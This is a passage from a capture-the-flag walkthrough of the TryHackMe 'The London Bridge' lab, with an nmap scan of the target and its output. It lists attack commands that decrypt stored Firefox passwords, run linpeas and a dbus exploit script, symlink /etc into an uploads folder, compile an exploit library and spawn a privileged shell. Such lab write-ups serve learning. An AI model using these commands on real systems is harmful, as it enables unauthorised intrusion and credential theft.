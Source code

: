 - `python3 firefox_decrypt/firefox_decrypt.py firefox/8k3bf3zp.charles`

**System Commands:**

- `uname -a`
- `dpkg --version`
- `chmod +x linpeas64`
- `./linpeas64`
- `bash exploit.dbus.sh`
- `tar -cvzf /tmp/firefox.tar.gz firefox`
- `ps -aux | grep 'gunicorn’`
- `ln -s /etc uploads`
- `gcc -fPIC -shared -o /tmp/exp2.so /tmp/exp2.c -nostartfiles`
- `ping -c 1 127.0.0.1`
- `/bin/bash -p`

### Laboratory Environment

[The London Bridge](https://tryhackme.com/r/room/thelondonbridge)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -oN nmap_result.txt -Pn $target_ip`

```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
|   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
|_  256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
8080/tcp open  http-proxy gunicorn
|_http-title: Explore London
|_http-server-header: gunicorn
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 02 Oct 2024 05:39:59 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2682
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Explore London</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     margin: 0;
|     padding: 0;
|     background-color: #f2f2f2;
|     header {
|     background-color: #333;
|     color: #fff;
|     padding: 10px 20px;
|     text-align: center;
|     background-color: #444;
|     color: #fff;
|     padding: 10px 20px;
|     text-align: center;
```